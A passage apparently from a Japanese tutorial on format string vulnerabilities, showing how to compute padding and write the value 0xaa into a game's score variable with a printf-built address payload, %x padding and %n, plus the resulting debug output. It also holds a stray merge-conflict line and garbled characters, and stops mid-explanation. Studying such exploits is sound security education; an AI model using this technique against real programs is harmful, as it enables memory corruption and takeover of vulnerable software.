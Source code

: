 　フィールド幅オプションなしの状態では63という値が書き込まれます。これを
0xaaにするには、あとどれだけの出力を余分に行えばよいでしょうか。0xaaは10
進数で170ですので、170\-63\=107。つまり、108文字を余分に出力すれば0xaaを書
き込めます。

\-\-\-\-\-
newbie@Glazheim:knoppix$ game.exe \`printf "\x8c\xf9\xff\xbf\x8d\xf9\xff\xbf\x8e\xf9\xff\xbf\x8f\xf9\xff\xbf"\`%x.%x.%x.%x.%x.%x.%108x.%n
[debug]addr of score \= bffff98c
[debug]addr of payload \= bffff950
Score of 鐃緒申鐃緒申鐃緒申鐃緒申鐃?fffb62.1.bffff8c4.4d532038.532050.b7eb116c. 1. is 170(aa)!! 
\-\-\-\-\-
>>>>>>> 82c9994b6232b32daccdf031aaba412934bfa781

　次に、2桁目の出力を行います。2桁目はbffff98d番地に0x000000bbを書き込み
